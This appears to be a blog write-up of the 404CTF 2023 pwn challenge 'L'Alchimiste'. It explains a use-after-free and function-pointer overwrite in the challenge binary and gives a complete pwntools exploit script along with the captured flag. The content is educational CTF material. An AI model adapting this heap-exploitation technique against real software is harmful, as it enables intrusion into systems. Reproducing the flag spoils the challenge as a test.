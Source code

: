 ```yaml
---
layout: post
title: 404CTF 2023 | L'Alchimiste
image: /assets/images/404ctf/l-alchimiste/cover.png
date: 2023-06-07 01:20:00
categories: [404ctf, pwn]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/description.png)

The given file shows us a RPG-like prompt, where we can take some actions. The goal seems to be to show the alchemist our value, and we can already guess with the prompt that the exploit will be triggered by the fifth choice.

![Program prompt]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/program.png)

# Reverse Engineering

Let's start by reversing the file on [Ghidra](https://ghidra-sre.org/). The binary contains debug symbols, so it is pretty straightforward. In the main function, a character is created and passed to each chosen function.

Looking at how are implemented the `showStats` and `buyStrUpPotion` functions, we deduce that our character is a structure containing 4 fields : 
 - `str`
 - `int`
 - `gold`
 - a pointer to a structure initialized as `NULL`, that we will identify later


<div class="row-container">
	<div class="flex-2">
{% markdown %}
In order to get the flag, our character needs to have at least 150 of strength and intelligence. Unfortunately, we only have 100 gold and we cannot buy intelligence potions... We will have to use our own intelligence and a **Use-After-Free** to do so !	
{% endmarkdown %}
	</div>
	<div>
{% markdown %}
![view_flag function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/view_flag.png)
{% endmarkdown %}
	</div>
</div>

# Analysis

Looking at how a potion is created, we deduce that a potion is another struct containing a `char[64]` array followed by a pointer to the function that will be executed when used.

![buyStrUpPotion function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/potion.png)

In this function, we note that `malloc` is always executed, even if we don't have enough gold.

![useItem function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/useItem.png)

Here `free` is called but the pointer reference will still be there !

Looking at those functions, a classic Use-After-Free comes out : if we buy a potion and use it a first time, we will then be able to repeat it to call `incStr` even if we don't have gold.
> Note that we have to call `malloc` again because else the double call to `free` will be detected and the program will crash.

___

In order to increase our strength, we just have to spam `buyStrUpPotion` and `useItem` :)

___
<br/>


As we're still unable to increase our intelligence, let's look further in the code. There is another option which allows us to send a message to the alchemist :

<div class="row-container column-reverse">
	<div class="flex-2">
{% markdown %}
In this function, a buffer is allocated on the heap and we can write arbitrary data to it. Using this ability with the previous **Use-After-Free**, we can overwrite a freed potion and choose the function which will be called when used.
{% endmarkdown %}
	</div>
	<div>
{% markdown %}
![sendMessage function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/sendMessage.png)
{% endmarkdown %}
	</div>
</div>

<div class="row-container">
	<div>
{% markdown %}
![incInt function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/incInt.png)
{% endmarkdown %}
	</div>
	<div class="flex-2">
{% markdown %}
Looking at the assembly code, and defined functions, we can observe that an `incInt` function is present in the binary, even if it is not called anywhere. This will make exploitation even easier for us, as this is exactly what we want to achieve.
{% endmarkdown %}
	</div>
</div>

As PIE is not enabled, the address of this function will not be random, we can find it at `0x4008d5`.

![Checksec output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/checksec.png)



# Exploit

As always, I used [pwntools](https://docs.pwntools.com/en/stable/), which makes communication with the process easier.

```py
#!/usr/bin/python3

from pwn import *

REMOTE = True
if REMOTE:
	p = remote('challenges.404ctf.fr', 30944)
else:
	p = process('./l_alchimiste')
	input('Press [ENTER] to continue...')

"""
1: buyStrUpPotion(character); MALLOC
2: useItem(character); FREE
3: sendMessage();
4: showStats(character);
5: view_flag(character);
6: break;
"""

INC_INT = 0x4008d5

def upStr():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

def upInt():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

	payload = b'A' * int(64)
	payload += p64(INC_INT)

	p.send(b'3\n') # Send message
	p.recvuntil(b'[Vous] ')
	p.send(payload + b'\n')
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Message address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')
	#p.send(b'4\n') # SHOW
	#print(p.recvuntil(b'>>> ').decode())

p.recvuntil(b'>>> ')
upStr()
upStr()
upStr()

upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
p.send(b'4\n') # SHOW
print(p.recvuntil(b'>>> ').decode())

p.send(b'5\n')
sleep(2)
print(p.recv())
```

![expl.py output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/expl-output.png)

> ✅ Flag : `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`